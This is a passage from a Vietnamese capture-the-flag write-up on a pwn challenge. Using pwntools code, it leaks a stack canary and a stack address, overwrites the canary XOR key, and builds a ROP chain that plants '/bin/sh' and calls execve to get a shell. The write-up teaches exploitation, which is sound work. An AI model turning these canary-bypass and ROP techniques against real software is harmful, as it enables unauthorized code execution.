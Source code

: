 - ta tìm địa chỉ mà chương trình lấy để xor với canary
  ![image](https://user-images.githubusercontent.com/111769169/230188756-dbfe97b7-3c7e-4c14-9cac-4e2c2d54674c.png)
- Vậy ta cần phải ghi đè ở chỗ trong hình, offset là -56 so với stack ta leak nên cần chỉnh lại script một tí

```python
    payload = b"a" * 50
    r.sendafter(b"name ?\n", payload)
    r.recvuntil(b"a" * 48)
    canary = u64(r.recv(8)) - 0x61
    log.info("canary: " + hex(canary))
    stack = u64(r.recv(6) + b"\0\0")
    log.info("stack: " + hex(stack))

    ow_canary = stack - 56
    r.sendafter(b"rop ?\n", p64(ow_canary))
```

- Từ đó ta pading đến canary thứ 2 vài ghi lại, cuối cùng là ret về main

```python
    payload = p64(canary) + b"a" * 40 + p64(exe.sym['main'] + 5)
    r.sendafter(b"enabled?\n", payload)
```

## chèn chuỗi /bin/sh và đưa shell

- Do có một byte "a" ở trên nên ta sẽ pading byte đó vào đưa /bin/sh vào cùng 1 dãy, thì offset là -72 so với stack mình leak

![image](https://user-images.githubusercontent.com/111769169/230191553-9616c22c-96f4-46a8-a13a-f9d8f3821d73.png)

```python
    pop_rdi = 0x00000000004013b3
    pop_rdx = 0x00000000004011f6
    pop_rsi = 0x00000000004013b1
    pop_rax = 0x00000000004011fa
    syscall = 0x00000000004011f8
    binsh = stack - 72
    shell = flat(
        pop_rdi, binsh,
        pop_rdx, 0,
        pop_rsi, 0, 0,
        pop_rax, 0x3b,
        syscall,
        0x3b

    )
    payload = b"a"
    payload += b"/bin/sh\0"
    payload += b"a" * 8 + p64(canary)
    payload = payload.ljust(65)
    payload += shell
    r.sendafter(b"name ?\n", payload)

    r.sendafter(b"rop ?\n", b"a")
    r.sendafter(b"enabled?\n", b"b")
```
